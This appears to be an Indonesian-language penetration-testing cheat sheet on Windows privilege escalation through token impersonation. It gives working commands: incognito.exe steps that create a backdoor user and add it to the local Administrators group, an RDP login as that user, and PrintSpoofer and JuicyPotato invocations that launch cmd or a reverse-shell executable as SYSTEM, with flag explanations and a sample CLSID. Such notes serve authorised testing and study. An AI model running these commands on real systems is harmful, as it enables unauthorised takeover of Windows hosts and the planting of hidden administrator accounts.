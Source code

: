## Token Impersonate

Windows menggunakan Token sebagai Identifier untuk setiap pengguna. Token ini di generate saat login. Ada celah keamanan dimana user biasa bisa melakukan priv esc bilamana user kita saat ini memiliki permission seDebugPrivilege dan SeImpersonatePrivilege

Untuk cek apakah user kita saat ini bisa impersonate token

cek di CMD :
`whoami /priv`

pastikan  `SeImpersonatePrivilege` enabled. 

Lalu cek user mana saja yang bisa di impersonate. Kita bisa pakai incognito.exe, commandnya :

```
* incognito.exe list tokens -u //list token available to impersonate
* incognito.exe add_user mrdoel 123456 //add new user
* incognito.exe add_localgroup_user Administrators mrdoel  //add new user to the local administrators group
* net user mrdoel //cek apakah user sudah ditambahkan ke group administrator (Local Group Memberships      *Administrators)
```

Jika RDP tersedia maka kita bisa login sebagai root dengan command
`rdesktop -u mrdoel -p 123456 target.local`

### Teknik Baru Token Impersonate 
Cara sebelumnya hanya berlaku untuk windows dibawah windows 10. Jika cara diatas tidak bisa maka kita bisa gunakan PrintSpoofer, targetnya Windows 10 and Server 2016/2019. 

Note: pastikan `SeImpersonatePrivilege` berstatus `Enabled`

Cek di https://github.com/itm4n/PrintSpoofer/releases

Perintah untuk menjalankan exploit
```PrintSpoofer64.exe -i -c cmd```

atau bisa juga seperti ini
```
PrintSpoofer64.exe -i -c "C:\Temp\Reverse.exe"
```

### Juicy Potato
Pada Windows terdapat user dengan privilege services. User ini tidak bisa login, karena dia hanya bertugas untuk menjalankan tugas / service misal apache, mssql dll. Terdapat celah keamanan ketika user service ini memiliki privileges `SeImpersonatePrivilege`  atau `SeAssignPrimaryToken`dimana bisa melakukan token impersonate. 

Cara untuk exploit celah ini adalah dengan menggunakan Juice Potatal https://github.com/ohpe/juicy-potato  , juicy potato hanya work sampai windows 7. Sedangkan untuk windows 10 kita bisa gunakan Rogue Potato

Cek dulu `whoami /priv`

Lalu cara untuk menjalankan juicy potato
```
.\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {xxx}
```

Penjelasan
* -l local port
* -p program yang akan dijalankan
* -t createprocess all
* -c CLSID, adalah unique number untuk mengidentifikasi setiap komponen aplikasi di windows. cek disini https://github.com/ohpe/juicy-potato/tree/master/CLSID , sesuaikan dengan sistem operasi dan privilege. Misalnya Windows 7 dan privilege `NT AUTHORITY\SYSTEM` maka CLSID nya ``{03ca98d6-ff5d-49b8-abc6-03dd84127020}``
```